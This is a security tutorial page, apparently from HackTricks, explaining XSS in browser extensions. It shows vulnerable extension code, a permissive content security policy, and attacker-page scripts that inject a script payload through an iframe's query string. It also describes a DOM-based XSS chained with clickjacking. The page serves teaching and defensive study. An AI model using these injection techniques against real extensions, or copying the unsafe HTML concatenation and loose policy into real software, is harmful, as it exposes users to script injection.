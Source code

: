 # BrowExt - XSS Example

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## XSS on Iframe

**Content script** creates an Iframe indicating an **URL in the parameters of the iFrame source**:

```javascript
chrome.storage.local.get("message", result =>
{
  frame.src = chrome.runtime.getURL("message.html") +
    "?message=" + encodeURIComponent(result.message) +
    "&url=https://example.net/explanation";
});
```

A exposed html page: **`message.html`**, accesible from the **browser**, contains a code such as:

```java
$(() =>
{
  let params = new URLSearchParams(location.search);
  $(document.body).append(params.get("message") + " <button>Explain</button>");
  $("body > button").click(() =>
  {
    chrome.tabs.create({ url: params.get("url") });
  });
});
```

The malicious page execute a script like the following to change the message for a **XSS payload**:

```javascript
setTimeout(() =>
{
  let frame = document.querySelector("iframe:last-child");
  let src = frame.src;

  // Remove existing query parameters
  src = src.replace(/\?.*/, "");

  // Add malicious query parameters
  src += "?message=" + encodeURIComponent("<script>alert('XSS')</script>");

  // Load into frame
  frame.src = src;
}, 1000);
```

A permissive Content Security Policy like&#x20;

```json
"content_security_policy": "script-src 'self' 'unsafe-eval'; object-src 'self';"
```

will allow the execution of the JS code.

Another way to trigger the XSS at will is running:

```javascript
let frame = document.createElement("iframe");
frame.src = "chrome-extension://abcdefghijklmnopabcdefghijklmnop/message.html?message="
  + encodeURIComponent("<script>alert('XSS')</script>");
document.body.appendChild(frame);
```

## DOM-based XSS + ClickJacking

The first vulnerability is the DOM-based Cross-site Scripting (XSS) vulnerability in **`/html/bookmarks.html`**, the following is the vulnerable JavaScript from the included **`bookmarks.js`**:

```javascript
$('#btAdd').click(function() {
    var btname = $('#txtName').val();
    if ($('.custom-button .name').filter(function() {
        return $(this).text() === btname;
    }).length) return false;

    var span = $('<span class="custom-button">');
    span.html('<span class="name">' + btname + '</span>');
    span.append('<a href="javascript:void(0)" title="remove">x</a>');
    span.attr('title', btname);
    span.data('id', (new Date().getTime()));
    $('div.custom-buttons .existing').append(span);
    save_options();
});
```

The above JavaScript takes the **value** of the **`txtName`** text box and uses **string concatenation to build HTML** which is appended to the DOM via jQuery’s [“append()”](https://api.jquery.com/append/) function.

Normally, Chrome extension Content Security Policy (CSP) should prevent this vulnerability from being exploited. However, due to the **loosening of this policy via** [**‘unsafe-eval’**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/script-src) and the use of jQuery’s DOM APIs, this was still able to be **exploited**. This is due to much of jQuery’s DOM APIs making use of [“globalEval()”](https://api.jquery.com/jquery.globaleval/), which automatically passes scripts to [“eval()”](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global\_Objects/eval) upon appending to the DOM.

While this is a serious vulnerability, on its own exploitation is fairly limited due to the **user-interaction required to exploit it**. The victim would have to open the page, paste a Cross-site Scripting (XSS) payload into the field, and click the “Add” button to exploit it.

In order to better weaponize this vulnerability we make use of a separate vulnerability (**clickjacking**) in order to bolster the attack.

The following is an excerpt from the Chrome extension’s manifest:

```json
...trimmed for brevity...
"web_accessible_resources": [
    "_locales/*",
    "bundle/*",
    "dist/*",
    "assets/*",
    "font/*",
    "html/bookmarks.html",
    "css/*.css",
    "js/*.js",
    "js/jquery/*.js",
    "js/lang/*"
],
...trimmed for brevity...
```

The above section demonstrates that the extension casts a wide net with its **`web_accessible_resources`** policy.&#x20;

The **`/html/bookmarks.html`** page is also able to be **framed** and thus **exploited** via **clickjacking**. We abuse this to iframe this page in our web page, and **overlay the frame with DOM elements to redress the layout**. This makes it so that the victim is unaware that they are **actually interacting with the extension below**. The following animation demonstrates this effect (check the animation in the [**original post writeup**](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)).

## References

* [https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/](https://palant.info/2022/08/31/when-extension-pages-are-web-accessible/)
* [https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/](https://thehackerblog.com/steam-fire-and-paste-a-story-of-uxss-via-dom-xss-clickjacking-in-steam-inventory-helper/)

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
